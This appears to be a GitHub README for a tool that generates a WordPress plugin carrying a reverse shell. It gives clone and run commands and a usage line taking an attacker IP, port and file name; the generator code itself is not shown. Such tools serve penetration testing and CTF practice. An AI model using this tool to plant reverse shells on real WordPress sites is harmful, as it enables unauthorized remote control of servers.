 # ✅ WordPress reverse shell Plugin Generator

## Installation
```
git clone http://github.com/root-tanishq/wp_rshell
```
```
cd wp_rshell
```
```
python3 wp_rshell.py
```

## Tool Usage

Usage = `python3 wp_rshell.py [IP] [PORT] [FILE NAME]`

FILE NAME = Plese dont provide extension

Example:-
    `# python3 wp_rshell.py 10.10.11.100 4455 payload`
